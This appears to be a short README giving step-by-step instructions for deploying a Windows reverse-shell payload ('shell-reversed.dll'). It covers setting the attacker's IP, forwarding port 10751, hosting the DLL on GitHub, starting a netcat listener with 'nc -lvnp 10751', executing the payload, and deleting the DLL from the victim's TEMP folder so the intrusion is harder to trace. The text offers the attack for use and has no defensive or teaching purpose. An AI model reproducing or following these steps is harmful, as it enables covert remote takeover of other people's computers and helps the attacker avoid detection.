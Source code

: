 1) In "shell-reversed.dll" and replace "x.x.x.x" with the public ip address of the server you will be litening for the reverse shell on
2) Make Sure The Server You're listening on has port 10751 forwarded to open internet
3) Host the file "shell-reversed.dll" in a github repo
4) Repalce "<LINK GOES HERE>" with the public link to your hosted file in "Reverse Shell.txt"
5) Run the command "nc -lvnp 10751" on the server you want to listen on
6) Execute The Payload
7) Once The Reverse Shell has been established, run the command "rm $env:TEMP\shell-reversed.dll". This will remove the file helping efforts to trace you down become more difficult.
